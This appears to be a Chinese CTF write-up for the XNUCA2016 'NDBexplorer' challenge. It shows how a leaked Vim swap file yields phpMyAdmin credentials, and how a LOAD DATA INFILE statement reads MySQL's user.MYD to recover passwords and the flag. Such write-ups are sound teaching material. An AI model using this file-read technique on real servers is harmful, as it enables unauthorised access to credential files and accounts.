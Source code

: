 ```yaml
---
layout: post
title: XNUCA2016 NDBexplorer MySQL越权读取
comments: false
description: ""
keywords: "Vulnerability"
---
```


提示：a.SELECT @@datadir 。。。mysql/user.MYD b.user.MYD

题目：[Where is my data。](http://question7.erangelab.com/)

1、右键查看源码发现注释:

![20160809212520.jpg](/assets/images/2016-08-09/57832805.jpg)

2、发现使用的是Vim编辑器，可能存在缓存文件，格式如下：

```
/.db.php.swp
/.db.php.swo
/.db.php.swn
```

这里 **/.db.php.swp** 是缓存文件，下载发现了 phpmyadmin 的地址，账号以及密码；

![20160809212953.jpg](/assets/images/2016-08-09/1698047463.jpg)

```
<pre>
<span class="line"><span class="selector-tag">username</span>
<span class="selector-pseudo">:ctfdb</span>	
<span class="selector-tag">password</span>
<span class="selector-pseudo">:ctfmysql123</span></span></pre>
```

登录phpMyAdmin。

3、看Tips是提示的利用MySQL越权读取user.MYD的漏洞；

`select @@datadir;`

可以查到MySQL的数据文件的存放目录---MYD等那三类文件，查到路径是`/var/lib/mysql/`；

则user.MYD存在于此目录下的/mysql/user.MYD。

这里注意一点：linux和win的mysql存放数据的路径目录不一样，具体在文章后。

4、执行SQL语句：

```
LOAD DATA INFILE '/var/lib/mysql/mysql/user.MYD' INTO TABLE q fields terminated by 'LINES' TERMINATED BY '\0';
```

这句话是将user.MYD里的数据文字写到test库下面的q表里，执行；

![20160809214319.jpg](/assets/images/2016-08-09/3615450581.jpg)

注意：网上关于这个漏洞的利用语句是LOAD DATA LOCAL INFILE .....

多了一个LOCAL,这样在这个题目下是执行失败的，提示没有发现user.MYD；

具体原因记在文章末..

5、在时候打开test库下的q表，需要mysql用户密码就躺在里面了。

![20160809214600.jpg](/assets/images/2016-08-09/4107350408.jpg)

6、root和几个账号密码解不出来，但topsec能解；

密码：topsec123456 登录。

flag在ctfflag库的falg表文件里面躺着；

![20160809214902.jpg](/assets/images/2016-08-09/2116485969.jpg)

## Note

1、MySQL数据文件的存放路径和运行文件的路径（安装路径）：

Linux：

```
mysql&gt; SELECT @@datadir;
+-----------------+
| @@datadir |
+-----------------+
| /var/lib/mysql/ |
+-----------------+
1 row in set (0.00 sec)

mysql&gt; select @@basedir;
+-----------+
| @@basedir |
+-----------+
| /usr |
+-----------+
1 row in set (0.00 sec)
```

Windows:

```
mysql&gt; SELECT @@datadir;
+-------------------------------+
| @@datadir |
+-------------------------------+
| C:\websoft\mysql-5.6.17\data\ |
+-------------------------------+
1 row in set

mysql&gt; select @@basedir;
+-------------------------+
| @@basedir |
+-------------------------+
| C:\websoft\mysql-5.6.17 |
+-------------------------+
1 row in set
```

2、MySQL越权读取漏洞：

漏洞介绍：众所周知，Mysql的用户在没有File权限情况下是无法通过Load_file读文件或者通过into dumpfile 或者into outfile去写文件。偶尔发现个技巧，就是通过load data infile可以读取本地文件到数据库，这样就可以在低权限下去读取服务器上的文件。

但网上大多都是LOAD DATA LOCAL INFILE来写；

LOAD DATA LOCAL INFILE和LOAD DATA INFILE区别：[http://blog.csdn.net/youngerchen/article/details/7881678](http://blog.csdn.net/youngerchen/article/details/7881678)

